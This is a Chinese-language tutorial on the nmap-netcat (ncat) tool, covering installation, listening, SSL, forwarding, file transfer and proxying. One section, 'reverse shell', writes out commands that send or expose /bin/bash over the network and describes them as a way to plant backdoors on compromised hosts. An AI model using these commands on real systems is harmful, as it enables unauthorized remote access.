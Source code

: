 ## nmap-netcat(nc)

nc 是由 C 编写的非常强悍的网络工具，`nc` 主要有 4 个版本，gnu nc （2004 年停止维护，也叫 nc traditional）， openbsd nc（重写了 gnu nc，在正常维护），nmap-netcat（也叫 ncat，由 nmap 重写 nc traditional，被称为 21 世纪的 netcat，也是功能最多的 nc）。

下面我介绍的就是 nmap-netcat，出现的不论是 `nc` 还是 `ncat` 请一律当 `ncat` 处理，因为部分在 CentOS 上执行，CentOS上的 `nc` 就是 `ncat`。

## 安装

https://nmap.org/download ，ncat 集成在 nmap 中，可以通过安装 nmap 获取 ncat 。

### Centos / RedHat

```zsh
yum install nc
```

名字就是 nc，但是安装的时候能看到安装的是 nmap-netcat。

### Archlinux

```zsh
sudo pacman -S nmap
```

archlinux 通过装 nmap 会附带上 ncat（即 nc）。

## 功能介绍

### 端口扫描

`ncat` 没有端口扫描（但是 openbsd nc 有），谁让它是由 nmap.org 重写的呢，`nmap` 本身就可以说是命令行工具中的端口扫描这块做的最好的，所以集成在 `nmap` 中的 `ncat` 没有必要还带端口扫描功能，端口扫描直接用 nmap。

### TCP/UDP 通信

```zsh
# -l 表示监听，-p 指定端口，-v 表示会输出详细信息(-vv, -vvv 可以更详细)
# 默认是监听 tcp 。
ncat -lvp 1589
```

```zsh
# 唯一跟上面不同的就是这次监听的是 udp 。
ncat -lvup 1589
```

可以按 [mkcert](https://m4n5ter.github.io/linux/mkcert/mkcert.html) 生成自签证书。

```zsh
# 使用 ssl 来加密通信（否则是明文的，统一网络的人可以轻松嗅探到传输内容）
# --ssl-key，--ssl-cert 可以手动指定证书，--ssl 是生成并使用一个临时证书
ncat --ssl -lvp 1589
```

```zsh
# 如果监听端使用了 --ssl 那么客户端也需要。
 ncat --ssl -nv <IP Address> 1589
```

成功建立通信后可以直接在命令行输入字符来进行通信，会像聊天一样。

### 流量转发

流量转发可以用很多姿势，这里我用一个比较容易理解的姿势：

```zsh
# 目标机器
nc -lvvp 1665
# 中间负责转发的机器。-c 表示连接后直接用 sh 执行 -c 的内容。
# 这里是表示连接到达中间服务器后，中间服务器再连接目标服务器，从而实现流量转发
nc -lvvp 1589 -c 'nc -nv <目标机器 IP> <端口>'
# 客户端
nc -nv <中间机器 IP> <中间机器端口>
```

这样操作后，当客户端执行时，流量走向为：

```
客户端 -> 中间机器 IP:PORT -> 目标机器 IP:PORT
```

### 发送文件

既然都能通信了，那么发文件也是理所应当的，传文件本质也是流量传输。

```zsh
# 提供文件的机器，这样表示建立连接后把 temp.txt 的内容发送过去
nc -lvvp 1665 < temp.txt
# 需要获取文件的机器，这样与目标建立连接后，把它发过来的内容重定向到一个文件中
nc -nv <IP> <PORT> > out.txt
```

方向换一下也是同理：

```zsh
# 接收文件的机器
nc -lvvp 1665 > out.txt
# 发送文件的机器
nc -nv <IP> <PORT> < temp.txt
```

### 反弹 Shell

这个一般用于渗透时留后门，主要是利用 `nc` 的 `-c` 和 `-e` 。

```zsh
# 让客户端发送自己的 shell 给 <IP> <PORT>
# 客户端，这样 <IP> <PORT> 被监听时就会拿到客户端的 shell
# 后续 <IP> <PORT> 要再转发还是什么都可以自由操作
nc -nv <IP> <PORT> -e /bin/bash
-or
nc -nv <IP> <PORT> -c bash
```

```zsh
# 客户端开启一个端口，在这个端口上直接暴露自己的 shell
nc -lp 6666 -e /bin/bash
```

如果用于渗透，肉鸡一般是内网环境，所以都是用的第一种，主动发送 shell 给攻击者。第二种需要攻击者能访问到肉鸡的 ip:port 才行。加上一般都有防火墙阻拦，肉鸡的入站流量可能会被防火墙拦截，但是防火墙一般不会对出站流量有限制，这也是第一种方式的用的比较多的原因。

如果攻击者没有能让肉鸡访问到的 IP，一般通过内网穿透即可解决。

### SSH 代理

~/.ssh/config

```zsh
Host github.com
  ProxyCommand ncat --proxy 127.0.0.1:10808 --proxy-type socks5  %h %p
```

这样对 github 仓库进行 `git pull` `git push` 这样的操作都会走代理。

  `--proxy` 和 `--proxy-type` 可以让 `ncat` 摇身一变为一个代理工具。

### `--allow` / `--allowfile`

限制可以连接到 `ncat`（`nc`） 的 hosts，可以指定一些 IP，来做到只允许指定目标连接。

### `--deny` / `--denyfile`

与上面的相反，它是拒绝。

## 更多功能请自行探索

`ncat` 提供了许多功能，这些功能可以相互组合，或者配合其它东西来使用，能玩出的花样是非常多的。
